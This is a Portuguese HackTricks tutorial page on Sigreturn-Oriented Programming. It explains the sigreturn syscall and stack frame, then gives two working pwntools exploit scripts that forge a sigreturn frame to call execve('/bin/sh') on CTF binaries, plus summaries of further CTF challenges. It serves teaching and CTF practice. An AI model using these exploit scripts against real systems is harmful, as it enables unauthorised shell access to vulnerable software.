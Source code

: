 # SROP - Programação Orientada a Sigreturn

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

- Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
- Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
- Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
- **Compartilhe seus truques de hacking enviando PRs para** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informações Básicas

**`Sigreturn`** é uma **chamada de sistema** especial que é principalmente usada para limpar após um manipulador de sinal ter concluído sua execução. Sinais são interrupções enviadas a um programa pelo sistema operacional, frequentemente para indicar que alguma situação excepcional ocorreu. Quando um programa recebe um sinal, ele pausa temporariamente seu trabalho atual para lidar com o sinal com um **manipulador de sinal**, uma função especial projetada para lidar com sinais.

Após o manipulador de sinal terminar, o programa precisa **retomar seu estado anterior** como se nada tivesse acontecido. É aqui que o **`sigreturn`** entra em ação. Ele ajuda o programa a **retornar do manipulador de sinal** e restaura o estado do programa limpando o quadro da pilha (a seção de memória que armazena chamadas de função e variáveis locais) que foi usada pelo manipulador de sinal.

A parte interessante é como o **`sigreturn`** restaura o estado do programa: ele faz isso armazenando **todos os valores dos registradores da CPU na pilha.** Quando o sinal não está mais bloqueado, **`sigreturn` retira esses valores da pilha**, efetivamente redefinindo os registradores da CPU para seu estado antes que o sinal fosse tratado. Isso inclui o registrador do ponteiro da pilha (RSP), que aponta para o topo atual da pilha.

{% hint style="danger" %}
Chamar a chamada de sistema **`sigreturn`** de uma cadeia ROP e **adicionar os valores do registro** que gostaríamos que ele carregasse na **pilha** é possível **controlar** todos os valores dos registradores e, portanto, **chamar** por exemplo a chamada de sistema `execve` com `/bin/sh`.
{% endhint %}

Observe como isso seria um **tipo de Ret2syscall** que facilita muito o controle de parâmetros para chamar outros Ret2syscalls:

{% content-ref url="../rop-syscall-execv/" %}
[rop-syscall-execv](../rop-syscall-execv/)
{% endcontent-ref %}

Se você estiver curioso, esta é a **estrutura sigcontext** armazenada na pilha para posteriormente recuperar os valores (diagrama de [**aqui**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
Para uma melhor explicação, confira também:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Exemplo

Você pode [**encontrar um exemplo aqui**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) onde a chamada para signeturn é construída via ROP (colocando em rxa o valor `0xf`), embora este seja o exploit final a partir daí:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Verifique também o [**exploit a partir daqui**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) onde o binário já estava chamando `sigreturn` e, portanto, não é necessário construir isso com um **ROP**:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## Outros Exemplos e Referências

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* Binário em assembly que permite **escrever na pilha** e em seguida chama a syscall **`sigreturn`**. É possível escrever na pilha uma [**ret2syscall**](../rop-syscall-execv/) via uma estrutura **sigreturn** e ler a flag que está dentro da memória do binário.
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* Binário em assembly que permite **escrever na pilha** e em seguida chama a syscall **`sigreturn`**. É possível escrever na pilha uma [**ret2syscall**](../rop-syscall-execv/) via uma estrutura **sigreturn** (o binário contém a string `/bin/sh`).
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64 bits, sem relro, sem canary, nx, sem pie. Estouro de buffer simples abusando da função `gets` com falta de gadgets que realiza um [**ret2syscall**](../rop-syscall-execv/). A cadeia ROP escreve `/bin/sh` na `.bss` chamando gets novamente, abusa da função **`alarm`** para definir eax como `0xf` para chamar um **SROP** e executar um shell.
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* Programa em assembly de 64 bits, sem relro, sem canary, nx, sem pie. O fluxo permite escrever na pilha, controlar vários registradores, chamar uma syscall e em seguida chamar `exit`. A syscall selecionada é um `sigreturn` que definirá registros e moverá `eip` para chamar uma instrução de syscall anterior e executar `memprotect` para definir o espaço binário como `rwx` e definir o ESP no espaço binário. Seguindo o fluxo, o programa chamará read no ESP novamente, mas neste caso o ESP estará apontando para a próxima instrução, então passar um shellcode escreverá como a próxima instrução e o executará.
